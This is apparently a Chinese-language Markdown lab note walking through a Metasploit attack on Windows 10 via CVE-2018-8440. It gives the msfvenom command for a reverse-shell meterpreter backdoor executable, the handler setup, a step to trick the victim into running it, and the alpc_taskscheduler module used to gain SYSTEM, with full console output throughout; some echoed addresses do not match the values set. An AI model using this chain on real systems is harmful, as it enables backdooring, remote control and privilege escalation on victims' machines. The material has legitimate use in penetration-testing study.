 # Metasploit-Note

## CVE-2018-8440
----
```
Attacker IP : 192.168.1.1
Victim IP : 192.168.1.2
Victim OS : Windows 10x64
```

Step 1. 產生後門程式
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > backdoor.exe
```
Step 2. 監聽回傳設定
```
$ msfconsole
msf > use mulit/handler
msf exploit(mulit/handler) >  set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(mulit/handler) >  set LHOST 192.168.1.1
LHOST => 192.168.59.144
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444
```
Step 3. 誘使受害端點擊 backdoor.exe，並取得一般使用者權限
```
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:50228) at 2018-10-01 08:40:10 +0800
meterpreter > getuid
Server username: DESKTOP-E6KTUJB\User
meterpreter > background 
[*] Backgrounding session 1...
```
Step 4. 查看監聽對象資訊
```
msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  1         meterpreter x64/windows  DESKTOP-E6KTUJB\User @ DESKTOP-E6KTUJB  192.168.1.1:4444 -> 192.168.1.2:50228 (192.168.59.146)
```
Step 5. 使用 CVE-2018-8440 漏洞腳本，並取得系統權限
```
msf exploit(multi/handler) > use exploit/windows/local/alpc_taskscheduler 
msf exploit(windows/local/alpc_taskscheduler) > show options 

Module options (exploit/windows/local/alpc_taskscheduler):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS                   no        Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 x64


msf exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Checking target...
[*] Target Looks Good... trying to start notepad.exe
[*] Launching notepad.exe to host the exploit...
[+] Process 7976 launched.
[*] Writing payload dll into process 7976 memory
[*] Reflectively injecting the exploit DLL into 7976...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.2:50258) at 2018-10-01 09:16:31 +0800

C:\Windows\system32>whoami
whoami
nt authority\system
```
# Notes
* Metasploit 腳本更新
  Kali 中 .rb 的存放路徑為 /usr/share/metasploit-framework/modules/exploits 中

  將 .rb 放進去資料夾後，重新載入
  ```
  $ msfconsole
  msf > reload_all
  [*] Reloading modules from all module paths...
  ```
* 查詢可產生後門程式的類型
  ```
  $ msfvenom -l payloads
  ```
# Reference
[metasploit-framework](https://github.com/rapid7/metasploit-framework)
[metasploit-framework msfvenom](http://www.freebuf.com/sectool/72135.html)
